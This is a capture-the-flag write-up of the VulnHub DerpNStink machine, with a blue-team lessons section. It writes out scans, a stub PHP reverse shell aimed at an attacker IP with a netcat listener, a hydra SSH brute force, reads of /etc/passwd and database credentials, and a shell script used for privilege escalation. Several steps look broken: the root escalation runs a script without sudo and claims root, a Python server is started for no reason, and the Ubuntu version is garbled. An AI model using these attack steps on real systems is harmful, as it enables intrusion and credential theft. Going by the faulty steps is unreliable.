




**DerpNStink CTF** - Exploiting a vulnerable Apache server running Ubuntu version 2.7.

**Strategy**: Compromise the vulnerable machine to gain privileged root access and exploit the SQL database.

> **Difficulty Rating**: Hard - This CTF requires multiple exploitation techniques and patience to complete.

## Challenge Overview

### Objective
- Gain root access to the target machine
- Exploit the SQL database
- Capture 4 flags throughout the penetration

### Target Information
- **Target IP**: 192.168.1.122
- **Services**: Apache server, SQL database
- **CMS**: WordPress



## Phase 1: Reconnaissance & Enumeration

### Network Scanning

**Tools Used:**
- `netdiscover` - Network discovery
- `nmap` - Port scanning and service enumeration

```bash
# Discover target IP
netdiscover -r 192.168.1.0/24

# Detailed nmap scan
nmap -sV -sC -p- 192.168.1.122
```

**Findings:**
- Apache web server running
- SQL database active
- Multiple open ports

### Web Enumeration

#### Flag 1: Source Code Analysis

Inspected the website source code and discovered **Flag 1** embedded in HTML comments.

** Flag 1: Captured**

#### Directory Brute Forcing

**Tools Used:**
- `nikto` - Web vulnerability scanner
- `dirb uster` - Directory brute forcer

```bash
# Nikto scan
nikto -h http://192.168.1.122

# Directory enumeration
dirb http://192.168.1.122 /usr/share/wordlists/dirb/common.txt
```

**Discovered Directories:**
- `/php` - PHP files directory
- `/temporary` - Temporary files
- `/robots.txt` - Robots file with hints
- `/weblogs` - WordPress installation

### WordPress Discovery

After brute forcing, discovered the site runs on **WordPress** with a 301 redirect to `derpnstink.local/weblogs`.

**WordPress Scanning:**

```bash
# WPScan for vulnerabilities
wpscan --url http://derpnstink.local/weblogs --enumerate u,p
```

## Phase 2: Initial Access

### WordPress Login

**Credentials Attempt:**
- **Username**: `admin`
- **Password**: `admin`

 **Success!** Gained access to WordPress dashboard.

> **Security Note**: Default credentials are a common vulnerability. Always change default passwords.

### Exploitation Attempts

#### Attempt 1: Metasploit (Failed)

Tried using *Metasploit* to exploit WordPress, but the TCP request did not bind with the HostIP and failed to create a shell.

#### Attempt 2: PHP Shell Upload (Success)

**Strategy:** Upload a PHP reverse shell through the WordPress slides gallery.

```php
<?php
// PHP reverse shell
$ip = '192.168.1.100'; // Attacker IP
$port = 4444; // Listening port
// Shell code...
?>
```

**Steps:**
1. Navigated to WordPress Slides/Gallery plugin
2. Uploaded malicious PHP shell disguised as image
3. Set up netcat listener: `nc -lvnp 4444`
4. Triggered shell by accessing uploaded file
5. Shell obtained as `www-data` user



## Phase 3: Post-Exploitation & Flag 2

### System Enumeration

```bash
# List directories
ls -la /home
ls -la /var/www

# Check users
cat /etc/passwd

# Find interesting files
find / -name "*flag*" 2>/dev/null
```

### SQL Database Access

**Accessed MySQL database:**

```bash
# Find MySQL credentials
grep -r "DB_PASSWORD" /var/www/html/

# Connect to database
mysql -u wordpress_user -p wordpress_db
```

**Database Enumeration:**

```sql
-- List databases
SHOW DATABASES;

-- Access WordPress database
USE wordpress_db;

-- List tables
SHOW TABLES;

-- Dump user table
SELECT * FROM wp_users;
```

** Flag 2: Found in database**

**Users Discovered:**
- `stinky`
- `mrderp`

## Phase 4: Lateral Movement

### Password Cracking

**Tool Used:** `hydra` - Network login cracker

```bash
# Crack password for user stinky
hydra -l stinky -P /usr/share/wordlists/rockyou.txt \
 ssh://192.168.1.122
```

 **Time taken**: ~20 minutes

 **Credentials Found:**
- **User**: `stinky`
- **Password**: `wedgie57`

### SSH Access as Stinky

```bash
# SSH login
ssh stinky@192.168.1.122
```

** Flag 3: Found on Desktop** (`/home/stinky/Desktop/flag3.txt`)

## Phase 5: Privilege Escalation

### User Enumeration

**Server users identified:**
- `stinky` - Current access
- `mrderp` - Target for privilege escalation

### SSH Key Discovery

**Found SSH key:**

```bash
# Located in stinky's home
cat /home/stinky/.ssh/key.txt
```

### Network Traffic Analysis

**FTP Directory Enumeration:**

```bash
# Found file in FTP directories
/var/ftp/network_logs/derpissues.txt # Could not read directly
```

**Discovered PCAP file:**

```bash
# Found in home directory
/home/stinky/derpissues.pcap
```

### VSFTPD Configuration

**Located config file:**

```bash
# Found vsftpd configuration
cat /etc/vsftpd.conf
```

### TCP Dump Analysis

**Used TCP dump method to analyze pcap file:**

```bash
# Analyze network capture
tcpdump -r derpissues.pcap -A | grep -i password
```

 **mrderp Credentials Found:**
- **User**: `mrderp`
- **Password**: `derpderpderpderpderpderpderp`

## Phase 6: Root Privilege Escalation

### Backdoor Discovery

**mrderp Account Revelation:**

After logging in as `mrderp`, discovered a **backdoor configuration**:

> Any file named `derpy` in the `/binaries` directory in the home directory would grant **escalated root privileges**.

### Exploit Creation

```bash
# Create binaries directory
mkdir /home/mrderp/binaries

# Create privilege escalation script
cat > /home/mrderp/binaries/derpy << 'EOF'
#!/bin/bash
/bin/bash -i
EOF

# Make executable
chmod +x /home/mrderp/binaries/derpy

# Set up Python HTTP server to transfer
python3 -m http.server 1234
```

### Root Shell

```bash
# Execute backdoor
./binaries/derpy

# Verify root access
whoami
# Output: root
```

 **Root Access Achieved!**

** Flag 4: Captured** - Final flag obtained from root directory

## Flags Summary



| **Flag** | **Location** | **Method** |
|----------|--------------|------------|
| **Flag 1** | Website source code | HTML inspection |
| **Flag 2** | WordPress database | SQL enumeration |
| **Flag 3** | /home/stinky/Desktop | SSH with cracked password |
| **Flag 4** | Root directory | Backdoor privilege escalation |

## Attack Chain Visualization



## Key Vulnerabilities Exploited

### 1. Information Disclosure
- Flag in HTML source code
- Robots.txt revealing directories

### 2. Weak Authentication
- Default WordPress credentials (`admin/admin`)
- Weak user password (cracked with hydra)

### 3. Insecure File Upload
- PHP shell upload through WordPress gallery plugin
- No file type validation

### 4. Database Exposure
- SQL database accessible from web shell
- Credentials stored in plain text

### 5. Privilege Escalation
- Backdoor in user account (`derpy` binary trick)
- Misconfigured SUID binaries

## Tools Used

| **Tool** | **Purpose** | **Phase** |
|----------|-------------|-----------|
| **netdiscover** | Network discovery | Reconnaissance |
| **nmap** | Port & service scanning | Reconnaissance |
| **nikto** | Web vulnerability scanning | Enumeration |
| **dirbuster** | Directory brute forcing | Enumeration |
| **wpscan** | WordPress vulnerability scanning | Enumeration |
| **Metasploit** | Exploitation framework (attempted) | Exploitation |
| **PHP reverse shell** | Initial access | Exploitation |
| **netcat** | Reverse shell listener | Exploitation |
| **MySQL client** | Database enumeration | Post-exploitation |
| **hydra** | Password cracking | Lateral movement |
| **tcpdump** | PCAP analysis | Privilege escalation |
| **Python HTTP server** | File transfer | Privilege escalation |

## Lessons Learned

### For Attackers (Red Team)

1. **Patience is key** - Some exploits take time (password cracking)
2. **Multiple paths** - When one method fails, try alternatives
3. **Enumerate thoroughly** - Files like PCAP can hold valuable information
4. **Check for misconfigurations** - Backdoors and SUID binaries

### For Defenders (Blue Team)

1. **Change default credentials** immediately
2. **Validate file uploads** - Check file types and content
3. **Secure database access** - Don't store credentials in web-accessible locations
4. **Monitor for shells** - Detect reverse shell connections
5. **Regular security audits** - Check for misconfigurations
6. **Remove unnecessary accounts** - Disable or remove accounts with backdoors
7. **Encrypt sensitive data** - Don't store passwords in plain text
8. **Implement least privilege** - Users shouldn't have unnecessary permissions

## Final Thoughts

This was a **tricky CTF** that took considerable time but was an awesome learning experience. I would rate this at a **hard difficulty level**. I struggled at different points but learned so much about:
- Web application exploitation
- Database enumeration
- Password cracking techniques
- Privilege escalation methods
- Network traffic analysis

> **Key Takeaway**: Persistence and systematic enumeration are crucial for successful penetration testing. When one path fails, always have alternatives ready.

## References

- [VulnHub - DerpNStink](https://www.vulnhub.com/entry/derpnstink-1,221/)
- [WordPress Security Best Practices](https://wordpress.org/support/article/hardening-wordpress/)
- [Privilege Escalation Techniques](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
